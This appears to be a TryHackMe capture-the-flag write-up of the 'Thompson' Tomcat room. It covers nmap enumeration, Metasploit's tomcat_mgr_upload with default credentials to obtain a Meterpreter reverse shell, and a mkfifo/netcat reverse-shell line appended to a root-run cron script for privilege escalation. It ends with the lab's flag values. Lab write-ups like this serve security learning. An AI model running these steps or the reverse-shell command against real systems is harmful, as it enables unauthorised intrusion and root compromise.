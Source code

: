 <code>

## Thompson   

https://tryhackme.com/room/bsidesgtthompson
cve-2020-1938


## Enumeration

```
┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nmap   -p- 10.10.29.119       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 11:43 CEST
Nmap scan report for 10.10.29.119
Host is up (0.038s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8009/tcp open  ajp13
8080/tcp open  http-proxy

┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nmap  -sV -A -p 8080 10.10.29.119
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 11:45 CEST
Nmap scan report for 10.10.29.119
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5


PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

**Looks like cve-2020-1938**

## try default passwords on web and Get

```
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```


## Try msfconsole
``` Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.29.119     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.28.108      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.8.28.108:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying c7LfPuhpeMX...
[*] Executing c7LfPuhpeMX...
[*] Undeploying c7LfPuhpeMX ...
[*] Sending stage (57971 bytes) to 10.10.29.119
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.8.28.108:4444 -> 10.10.29.119:47342) at 2025-06-18 13:13:42 +0200

meterpreter > id
[-] Unknown command: id. Run the help command for more details.
meterpreter > ls
```` 
## Get inital access as user

tomcat@ubuntu:/home/jack$ cat user.txt  
cat user.txt
39400c90bc683a41a8935e4719f181bf



## Privilage Escalation to root
tomcat@ubuntu:/home/jack$ ls -la
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jun 18 02:17 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts

looks like id.sh is runs every minute with root creads

```
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.28.108 9001 >/tmp/f" >> id.sh
</f;cat /tmp/f|sh -i 2>&1|nc 10.8.28.108 9001 >/tmp/f" >> id.sh              
```

## Get root shell
```
┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [10.8.28.108] from (UNKNOWN) [10.10.29.119] 33486
sh: 0: can't access tty; job control turned off
# # uid=0(root) gid=0(root) groups=0(root)
# ls
id.sh
test.txt
user.txt
#  cd root
# ls
root.txt
# cat root.txt
d89d5391984c0450a95497153ae7ca3a
```+
